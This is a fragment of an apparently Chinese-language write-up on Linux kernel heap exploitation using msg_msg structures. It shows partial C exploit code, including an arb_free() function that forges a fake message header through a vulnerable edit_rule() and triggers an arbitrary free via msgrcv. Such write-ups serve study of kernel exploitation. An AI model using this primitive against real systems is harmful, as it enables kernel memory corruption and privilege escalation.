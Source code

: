 ```c
}

[...]

pthread_create(&tid[2], NULL, allocate_msg1, NULL); // [1] 子线程创建新消息

[...]
```

![2-5](/images/posts/msg_msg/2-5.png)

**任意释放**：调用`arb_free()`，伪造**QID #0**队列中的消息结构，并释放 **QID #0** 中的消息。

```c
[...]

void arb_free(int idx, uint64_t target)
{
    struct evil_msg *msg = (struct evil_msg *)malloc(0x100);
    void *memdump = malloc(0x2000);

    msg->m_list.next = queue; 		// [2] 指向 QID #1
    msg->m_list.prev = queue;
    msg->m_type =  1;
    msg->m_ts = 0x10;
    msg->next = target; 			// [3] 下一个segment指向QID #1队列中的segment

    edit_rule(idx, (unsigned char *)msg, OUTBOUND, 0); 			// [4] 修改 QID #0 中的消息头结构

    puts("[*] Triggering arb free...");
    msgrcv(qid[0], memdump, 0x10, 1, IPC_NOWAIT | MSG_NOERROR); // [5] 释放 QID #0 中的消息
```